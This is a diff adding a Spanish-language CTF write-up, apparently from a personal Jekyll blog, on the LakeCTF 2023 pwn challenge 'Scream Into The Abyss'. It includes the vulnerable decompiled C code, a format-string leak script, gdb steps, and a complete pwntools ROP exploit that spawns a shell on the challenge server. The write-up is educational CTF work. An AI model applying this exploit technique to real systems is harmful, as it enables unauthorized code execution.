

Before and after one commit to naibu3/naibu3.github.io, a Jekyll site: the page built from _pages/categories.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
Lake CTF post

````diff
--- /dev/null
+++ b/_posts/2024-12-2-Scream-To-The-Abyss-Lake-CTF.md
@@ -0,0 +1,242 @@
+---
+layout: post
+title: Scream To The Abyss Lake CTF 2023
+comments: true
+categories: [Pwn, Writeups, LakeCTF]
+---
+
+Para el próximo puente tengo pensado participar en el *LakeCTF*, por tanto he decidido echar un ojo a los ejercicios del año pasado. Comenzamos con uno sencillito pero que te hará querer gritar al abismo xd.
+
+![Image]({{ site.baseurl }}/images/posts/LakeCTFlogo.png){:width="100px"}
+
+# Overview
+
+El enunciado dice lo siguiente:
+
+  Try screaming into the abyss, maybe you'll get an answer...you probably won't though :/
+
+# Reconocimiento
+
+Como siempre comenzamos inspeccionando el binario (*64 bits LSB*) con *checksec*:
+
+```
+  Arch:       amd64-64-little
+  RELRO:      Full RELRO
+  Stack:      No canary found
+  NX:         NX enabled
+  PIE:        PIE enabled
+  SHSTK:      Enabled
+  IBT:        Enabled
+  Stripped:   No
+```
+
+Vemos que lo más relevante es que *no podemos ejecutar código del stack* y que tenemos el *PIE*. Vamos a descompilar con *ghidra* a ver que encontramos en el código:
+
+```c
+void main(void) {
+
+  int input;
+  uint iteration;
+
+  iteration = 0;
+  printf("Scream into the abyss and see how long it takes for you to get a response ;)");
+  do {
+    while( true ) {
+      printf("Current iteration: %d\n",(ulong)iteration);
+      printf("Enter input: ");
+      fflush(stdout);
+      input = getchar();
+      getchar();
+      if ((char)input != 'x') break;
+      save_msg(iteration);
+      iteration = 0;
+    }
+    iteration = iteration + 1;
+  } while( true );
+}
+
+void save_msg(uint param_1){
+
+  char input_str [264];
+  char *local_10;
+
+  local_10 = (char *)calloc(8,1);
+  printf("You can now scream a longer message but before you do so, we\'ll take your name: ");
+  fflush(stdout);
+  gets(local_10);
+  printf("Saved score of %d for %s. Date and Time: ",(ulong)param_1,local_10);
+  fflush(stdout);
+  system("date");
+  printf("Now please add a message: ");
+  fflush(stdout);
+  gets(input_str);
+  puts("Your message:");
+  printf(input_str);
+  puts("");
+  fflush(stdout);
+  return;
+}
+```
+
+Vemos que si introducimos un `x`, entraremos en `save_msg`, que tiene una vulnerabilidad de tipo *BOF* y un *Format String*.
+
+# Explotación
+
+Con esta información podemos plantear un ataque que consista en leakear la dirección base de `main` para poder saltarnos el *PIE* y mediante *ROP* llamar a `system` con la cadena `/bin/sh\0` como argumento.
+
+## Leakeando direcciones
+
+Comenzaremos sacando las direcciones que hay en el stack, para ver si podemos encontrar la dirección base de `main`. Para ello, abusaremos del *Format String* mediante este script:
+
+```python
+from pwn import *
+
+exe = './abyss_scream'
+elf = context.binary = ELF(exe, checksec=False)
+context.log_level = 'warning'
+
+def send_payload(payload, name):
+   p.recvuntil(b"input: ")
+   p.sendline(b"x")
+   p.recvuntil(b"name: ")
+   p.sendline(name)
+   p.recvuntil(b"message: ")
+   p.sendline(payload)
+
+data = b""
+i = 0
+name_str = "bytebl33d"
+for i in range(50):
+   try:
+      p = start()
+      send_payload(f"%{i}$p".encode(), name=name_str)
+      p.recvuntil(b"Your message:\n")
+      data = p.recvuntil(b"\n")
+      print(i, data)
+      p.recvuntil(b"input: ")
+      p.close()
+   except EOFError:
+      pass
+```
+
+
+
+```bash
+./format_fuzzer.py
+
+4 b'0x557f3d6026b5\n'
+
+41 b'0x561bf357a6c0\n'
+
+43 b'0x55e4378d139e\n'
+
+49 b'0x55c0e792931e\n'
+```
+
+Podemos inspeccionarlas con *gdb*. Pero debemos tener en cuenta que se llama a `system("date")`, lo que hace que se cree un nuevo hilo de ejecución, impidiéndonos depurar. Para ello debemos poner un *breakpoint* justo antes y saltarnos la instrucción:
+
+```bash
+b *save_msg+146     //break antes de system
+b *save_msg+254     //break para inspeccionar el stack
+r
+jump *save_msg+154  //Nos saltamos system
+```
+
+Una vez inspeccionamos las direcciones vemos cosas útiles:
+
+# La 41 es un puntero al principio del campo nombre
+x/s 0x561bf357a6c0
+0x561bf357a6c0:	"bytebl33d"
+
+# La 43 apunta a main+128
+x 0x55e4378d139e
+0x55e4378d139e <main+128>:	0x00fc45c7
+
+Vemos que tenemos una dirección donde se guarda la cadena que hemos introducido. Además, tenemos una forma de encontrar el offset de esta dirección a la dirección base de `main` mediante la segunda dirección.
+
+
+## Buscando el offset
+
+Ya sólo necesitamos encontrar el offset hasta el *RIP*. Para ello volveremos a utilizar *gdb-peda* y *cyclic*, saltándonos la llamada a *system*:
+
+```
+RSP: 0x7fffffffdc18 ("uaacvaacwaacxaacyaac")
+
+cyclic -l uaacvaac
+280
+```
+
+## Exploit
+
+Teniendo todo en cuenta, sacamos los gadgets necesarios con *ropper* y podemos hacernos un script en *python* (créditos al final):
+
+```python
+#!/bin/python3
+from pwn import *
+
+exe = './abyss_scream'
+elf = context.binary = ELF(exe, checksec=False)
+
+def start():
+
+    if args.REMOTE:
+        return remote("chall.polygl0ts.ch", 9001)
+    else:
+        return process(exe)
+
+padding = 280
+
+def send_payload(payload, name=b"bytebl33d"):
+  p.recvuntil(b"input: ")
+  p.sendline(b"x")
+  p.recvuntil(b"name: ")
+  p.sendline(name)
+  p.recvuntil(b"message: ")
+  p.sendline(payload)
+
+def get_leak_address(index, name=b"/bin/sh\x00"):
+   send_payload("%{}$p".format(index), name)
+   p.recvuntil(b"Your message:\n")
+   data = p.recvuntil(b"\n")
+   return int(data, 16)
+
+print("main (symbols) @", context.binary.symbols["main"])
+main_addr = get_leak_address(43) - 128
+info(f'main_addr @ {hex(main_addr)}')
+
+elf.address = main_addr - context.binary.symbols["main"]
+info(f'PIE base @ {hex(elf.address)}')
+
+# pop_rdi gadget
+pop_rdi = elf.address + 0x13b5
+info(f'pop_rdi @ {hex(pop_rdi)}')
+
+# ret gadget
+ret = elf.address + 0x101a
+info(f'ret @ {hex(ret)}')
+
+# system call address
+system = elf.plt.system
+info(f'system @ {hex(system)}')
+
+# binsh address
+bin_sh = get_leak_address(41)
+print("/bin/sh @", hex(bin_sh))
+
+payload = flat({
+   padding: [
+      ret,
+      pop_rdi,
+      bin_sh,
+      system
+   ]
+})
+
+send_payload(payload)
+
+p.interactive()
+p.close()
+```
+
+
+Quiero dar crédito al [writeup original](https://bytebl33d.github.io/lake-ctf-pwn-scream-into-the-abyss/) que me ayudó a la hora de resolver el reto.
````
Also changed, not shown: _posts/2024-11-18-Rigged-Slot-Machine-2-1337UP.md (+0 -1 lines), images/posts/LakeCTFlogo.png (added).
